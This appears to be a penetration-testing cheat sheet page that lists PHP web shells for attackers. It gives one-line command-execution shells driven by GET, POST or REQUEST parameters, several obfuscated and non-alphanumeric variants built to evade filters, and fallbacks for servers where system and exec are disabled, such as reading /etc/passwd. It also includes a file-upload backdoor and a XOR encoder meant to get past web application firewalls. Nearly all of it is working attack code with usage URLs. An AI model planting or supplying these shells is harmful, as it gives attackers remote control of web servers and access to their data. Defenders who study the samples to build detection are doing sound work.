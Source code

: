 ```yaml
---
description: Several list of simple and obfuscate PHP shell
---
```


# Simple PHP Webshell

### Simple PHP Webshell

#### Simple HTTP Requests GET Method Shell

```
<?=`$_GET[0]`?>

[*] Usage: http://target.com/path/to/shell.php?0=command
```

#### Simple HTTP Requests POST Method Shell

```
<?=`$_POST[0]`?>

[*] Usage: curl -X POST http://target.com/path/to/shell.php -d "0=command"
```

#### Support GET and POST Requests Method

```
<?=`{$_REQUEST['_']}`?>

[*] Usage:
 - http://target.com/path/to/shell.php?_=command
 - curl -X POST http://target.com/path/to/shell.php -d "_=command"
```

### Simple Obfuscated PHP Web Shell

#### Obfuscated PHP Web shell Example

```
<?=$_="";$_="'";$_=($_^chr(4*4*(5+5)-40)).($_^chr(47+ord(1==1))).($_^chr(ord('_')+3)).($_^chr(((10*10)+(5*3))));$_=${$_}['_'^'o'];echo`$_`?>

[*] Usage: http://target.com/path/to/shell.php?0=command
[*] Note: This is obfuscation of <?=`$_GET[0]`?>
```

#### Non-alphanumeric obfuscation PHP Web Shell

```php
<?php $_="{"; $_=($_^"<").($_^">;").($_^"/"); ?> <?=${'_'.$_}["_"](${'_'.$_}["__"]);?>

[*] Usage: http://target.com/path/to/shell.php?_=function&__=argument
[*] E.g.: http://target.com/path/to/shell.php?_=system&__=ls
```

#### Another Example Obfuscation of Simple PHP Webshell

```php
<?php $_=${'_'.('{{{' ^ '<>/')};$_[0]($_[1]); ?>
<?php $_=${'_'.('{'^'<').('{'^'>;').('{'^'/')};$_[0]($_[1]); ?>

[*] Usage: http://target.com/path/to/shell.php?0=function&1=argument
[*] E.g.: http://target.com/path/to/shell.php?0=system&1=ls
```

**in case if some functions like system,exec,etc. are disabled we can use var\_dump or print\_r for print output some function:**

```php
<?php $_=${'_'.('{{{' ^ '<>/')};$_[0]($_[1]($_[2])); ?>
<?php $_=${'_'.('{'^'<').('{'^'>;').('{'^'/')};$_[0]($_[1]($_[2])); ?>

[*] Usage: http://target.com/path/to/shell.php?0=function1&1=function2&2=argument
[*] E.g.:
    - http://target.com/path/to/shell.php?0=var_dump&1=scandir&2=.
    - http://target.com/path/to/shell.php?0=print_r&1=file_get_contents&2=/etc/passwd
```

#### Without Space Obfuscation PHP Web Shell

```php
<?=$_=${'_'.('{{{'^'<>/')};$_[0]($_[1]);?>

[*] Usage: http://target.com/path/to/shell.php?0=function&1=argument
[*] E.g.: http://target.com/path/to/shell.php?0=system&1=ls
```

**in case if some functions like system,exec,etc. are disabled we can use var\_dump or print\_r for print output some function:**

```php
<?=$_=${'_'.('{{{'^'<>/')};$_[0]($_[1]($_[2]));?>

[*] Usage: http://target.com/path/to/shell.php?0=function1&1=function2&2=argument
[*] E.g.: http://target.com/path/to/shell.php?0=print_r&1=glob&2=*
```

#### Without Space and Non-alphanumeric Obfuscation PHP Web Shell

```php
<?=$_=${'_'.('{{{'^'<>/')};$_['__']($_['___']);?>

[*] Usage: http://target.com/path/to/shell.php?__=function&___=argument
[*] E.g.: http://target.com/path/to/shell.php?__=system&___=ls
```

**in case if some functions like system,exec,etc. are disabled we can use var\_dump or print\_r for print output some function:**

```php
<?=$_=${'_'.('{{{'^'<>/')};$_['__']($_['___']($_['____']));?>

[*] Usage: http://target.com/path/to/shell.php?__=function1&___=function2&____=argument
[*] E.g.: http://target.com/path/to/shell.php?__=var_dump&___=scandir&____=/
```

### PHP Uploader

{% code overflow="wrap" %}
```php
<?php echo php_uname();echo '<br>';
echo '<br>';echo '<form action="" method="post" enctype="multipart/form-data" name="uploader" id="uploader">';echo '<input type="file" name="file" size="50"><input name="_upl" type="submit" id="_upl" value="Upload"></form>';if( $_POST['_upl'] == "Upload" ) {if(@copy($_FILES['file']['tmp_name'], $_FILES['file']['name'])) { echo '<b>Uploaded</b><br><br>'; }else { echo '<b>Upload Failed !!!</b><br><br>'; }}?>
```
{% endcode %}

### XOR Shell

Encoder PHP webshell to bypass WAF using XOR operations.

```bash
git clone https://github.com/GgBoom-993/xorshell
cd xorshell/
python3 xorshell.py -m GET -p cmd -o asuka.php

### access
http://localhost:8000/asuka.php?cmd=system('id');
```

### PHP Obfuscator

* [https://www.gaijin.at/en/tools/php-obfuscator](https://www.gaijin.at/en/tools/php-obfuscator)

### Reference

* [https://github.com/bayufedra/Tiny-PHP-Webshell](https://github.com/bayufedra/Tiny-PHP-Webshell)
* [https://github.com/lcatro/PHP-WebShell-Bypass-WAF](https://github.com/lcatro/PHP-WebShell-Bypass-WAF)
